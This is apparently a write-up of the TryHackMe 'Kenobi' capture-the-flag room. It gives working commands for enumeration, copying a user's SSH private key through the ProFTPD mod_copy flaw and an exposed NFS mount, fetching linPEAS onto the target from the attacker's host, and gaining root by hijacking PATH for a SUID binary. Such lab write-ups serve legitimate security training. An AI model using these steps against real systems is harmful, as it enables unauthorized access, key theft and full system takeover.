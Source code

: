 # Kenobi

##### Written: 28/08/2020

**IP Address: 10.10.243.180**

<br>

I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website (Port 80 is open for HTTP):

<img style="float: left;" src="screenshots/screenshot1.png">

To enumerate the server information, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80!

Next, I ran an nmap scan on the server. I ran two nmap scans at one time, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```

<br>

While I left the thorough nmap scan running in the background, I analyzed the results of the Quick nmap scan, which told me that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** were open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case!

<br>

While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Port 445** was specified as it is the port that hosted samba. The results are as follows:

<img style="float: left;" src="screenshots/screenshot2.png">

As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the "**anonymous**" share, and it allowed me to do so without requiring any authentication! 

<br>

Using the command **ls** revealed that there was a **log.txt** file:

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

The "**log.txt**" file was just a basic ProFTPD configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

Now we have to make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

<br>

In our case, port 111 is access to a network file system. So I could use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

<img style="float: left;" src="screenshots/screenshot4.png">

Hence, we can see that **/var** is a mount!

I can use **netcat** to connect to the machine on its ftp port. This can be done via:

```
nc 10.10.243.180 21
```

<br>

With that, I successfully connected to the ftp server.

I then used a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. It gave me 3 possible exploits that could be used! The command is:

```
searchsploit proftpd 1.3.5
```

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, I know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, I can mount my local computer to the machine, and use that to obtain the **id_rsa** file. This will then allow me to access the machine via **ssh** as user kenobi!

<br>

To do this, first, I used the **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 

<img style="float: left;" src="screenshots/screenshot6.png">

<br>

Next, I created a directory in my local computer's /mnt directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

I then mounted the **/var** directory onto my local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, I could just navigate to the **/tmp** folder and obtain the **id_rsa** file.

<img style="float: left;" src="screenshots/screenshot7.png">

<br>

I then copied the id_rsa file over to my desktop, changed its permissions to be read and write by owner only, using 

```
chmod 600 id_rsa
```

I could then ssh into the machine with the rsa key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

With that, I obtained **user.txt**, which was located in the home directory of the user **kenobi**.

<br>

---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command:

```
find / -perm -u=s -type f 2>/dev/null
```

to find any out-of-the-ordinary files. 

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up! 

On my local computer, I hosted a simple HTTP server using Python's in-built server. I first cd'ed into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

In the victim machine, I used

```
wget http://YOUR_IP_HERE/linpeas.sh
```

After successfully downloading, I just had to make it an executable before I could run it! 

<br>

After running linpeas, I noticed that there was an interesting file that had its SUID bit set => **/usr/bin/menu**:

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon running the menu binary, I came across some interesting options:

<img style="float: left;" src="screenshots/screenshot9.png">

It would seem as if the binary just allowed us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **ROOT** (due to the SUID bit being set) .

Using the command "**strings**", which allows us to look for human-readable strings on a binary, in this case, on **menu,** 

<img style="float: left;" src="screenshots/screenshot10.png">

it tells us that the commands run in the binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

First, copy the **/bin/sh** shell into a new file called **curl**. Give it the proper permissions (**777**), then put its location into our **PATH**. Since when the /usr/bin/menu binary is run, its using our path variable to find the "curl" binary, it will run the "curl" binary that we created earlier on,which is actually a version of **/usr/sh**. Thus a shell will be opened as root, which means that we have successfully escalated our privileges.

<img style="float: left;" src="screenshots/screenshot11.png">

*(Example given in TryHackMe)*

Hence, when I run the menu binary and run option 1, which uses the "curl" binary that I created earlier on, I will be able to gain access to a root shell as root.

<img style="float: left;" src="screenshots/screenshot12.png">

<br>

With that, I obtained **root.txt**, which was located in the home directory of the **root user**.





